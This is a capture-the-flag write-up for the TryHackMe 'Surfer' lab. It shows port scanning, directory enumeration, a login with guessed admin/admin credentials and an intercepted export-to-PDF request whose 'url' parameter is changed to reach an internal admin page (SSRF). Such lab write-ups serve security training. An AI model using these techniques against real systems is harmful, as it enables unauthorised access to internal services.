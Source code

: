 # Surfer

URL: https://tryhackme.com/room/surfer

Level: Easy

Date: 24 Aug 2023

- [Reconnaissance](#reconnaissance)
	- [NMAP](#nmap)
	- [Web](#web)
	- [Dirbusting](#dirbusting)
	- [export2pdf](#export2pdf)
	- [Burpsuite](#burpsuite)
	- [Flag](#flag)






## Reconnaissance

### nmap

```bash
joshua@kaligra:~/Documents/thm/surfer$ sudo nmap -T4 -p- -n 10.10.105.186 -oA nmap
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-24 17:22 CEST
Nmap scan report for 10.10.105.186
Host is up (0.064s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 62.24 seconds
```

```bash
joshua@kaligra:~/Documents/thm/surfer$ sudo nmap -T4 -sC -sV -p22,80 -n 10.10.105.186 -oA nmap2
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-24 17:23 CEST
Nmap scan report for 10.10.105.186
Host is up (0.063s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 5b52eba75a64e99fcd33eedc1c95aef8 (RSA)
|   256 ece0efb62e7cc436d945ef08b4f73b62 (ECDSA)
|_  256 0c55ee74042af91549c390aae3a16e0f (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
| http-title: 24X7 System+
|_Requested resource was /login.php
|_http-server-header: Apache/2.4.38 (Debian)
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
| http-robots.txt: 1 disallowed entry
|_/backup/chat.txt
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.09 seconds
```

### web

![](Pasted%20image%2020230824172427.png)

Let's check the previous nmap's output.

We got a `robots.txt` entry about `chat.txt`

http://10.10.105.186/backup/chat.txt

```bash
Admin: I have finished setting up the new export2pdf tool.
Kate: Thanks, we will require daily system reports in pdf format.
Admin: Yes, I am updated about that.
Kate: Have you finished adding the internal server.
Admin: Yes, it should be serving flag from now.
Kate: Also Don't forget to change the creds, plz stop using your username as password.
Kate: Hello.. ?
```



We try with `admin/admin` and we are in!

![](Pasted%20image%2020230824172505.png)

We notice a big hint about SSRF:

![](Pasted%20image%2020230824172601.png)

### dirbusting

```bash
joshua@kaligra:~/Documents/thm/surfer$ feroxbuster --silent -u http://10.10.105.186 -n -t 200 -L 1 -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -o ferox.txt
http://10.10.105.186/ => http://10.10.105.186/login.php
http://10.10.105.186/assets => http://10.10.105.186/assets/
http://10.10.105.186/vendor => http://10.10.105.186/vendor/
http://10.10.105.186/backup => http://10.10.105.186/backup/
http://10.10.105.186/internal => http://10.10.105.186/internal/
http://10.10.105.186/server-status
```

### export2pdf

![](Pasted%20image%2020230824174250.png)

We click on "Export to PDF" and we obtain a report:

![](Pasted%20image%2020230824174328.png)

```html
<!-- Reports -->
            <div class="col-12">
              <div class="card">

                <div class="card-body">
                  <h5 class="card-title">Export Reports <span>/Today</span></h5>
                  <form class="row g-3 needs-validation" novalidate action="[export2pdf.php](view-source:http://10.10.105.186/export2pdf.php)" method="POST">
                    <input type="hidden" id="url" name="url" value="http://127.0.0.1/server-info.php">
                    <div class="col-12">
                        <button class="btn btn-primary w-100" type="submit">Export to PDF</button>
                    </div>
                  </form>
                </div>

              </div>
            </div><!-- End Reports -->
```

### burpsuite

Let's fire up `burpsuite` and intercept HTTP request after clicking on "export to pdf"

```
POST /export2pdf.php HTTP/1.1
Host: 10.10.105.186
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 44
Origin: http://10.10.105.186
Connection: close
Referer: http://10.10.105.186/
Cookie: PHPSESSID=15a607c52341c4891359c707e27e0639
Upgrade-Insecure-Requests: 1

url=http%3A%2F%2F127.0.0.1%2Fserver-info.php
```

We change request body in this manner:

```
url=http%3A%2F%2F127.0.0.1%2Finternal%2Fadmin.php
```

![](Pasted%20image%2020230824175411.png)

### flag


and we get flag :)

![](Pasted%20image%2020230824175429.png)

